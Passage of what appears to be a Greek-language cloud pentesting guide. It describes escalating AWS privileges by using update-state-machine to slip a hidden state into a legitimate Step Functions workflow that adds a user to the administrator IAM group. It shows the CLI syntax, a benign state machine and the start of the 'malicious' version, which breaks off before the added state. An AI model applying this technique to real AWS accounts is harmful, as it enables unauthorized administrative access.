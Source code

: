 {% code overflow="wrap" %}
```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```
{% endcode %}

Τα παρακάτω παραδείγματα δείχνουν πώς να ενημερώσετε μια νόμιμη μηχανή καταστάσεων που απλώς καλεί μια συνάρτηση Lambda HelloWorld, προκειμένου να προσθέσετε μια επιπλέον κατάσταση που προσθέτει τον χρήστη **`unprivilegedUser`** στην ομάδα IAM **`administrator`**. Με αυτόν τον τρόπο, όταν ένας νόμιμος χρήστης ξεκινά μια εκτέλεση της ενημερωμένης μηχανής καταστάσεων, αυτή η νέα κακόβουλη κρυφή κατάσταση θα εκτελείται και η κλιμάκωση προνομίων θα είναι επιτυχής.

{% hint style="warning" %}
Εάν η μηχανή καταστάσεων δεν έχει συσχετισμένο έναν επιτρεπτικό ρόλο IAM, θα απαιτείται επίσης η άδεια **`iam:PassRole`** για να ενημερώσετε τον ρόλο IAM προκειμένου να συσχετίσετε έναν επιτρεπτικό ρόλο IAM (για παράδειγμα, έναν με την πολιτική **`arn:aws:iam::aws:policy/AdministratorAccess`** συνημμένη).
{% endhint %}

{% tabs %}
{% tab title="Νόμιμη Μηχανή Καταστάσεων" %}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{% endtab %}

{% tab title="Κακόβουλη Ενημερωμένη Μηχανή Καταστάσεων" %}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
```
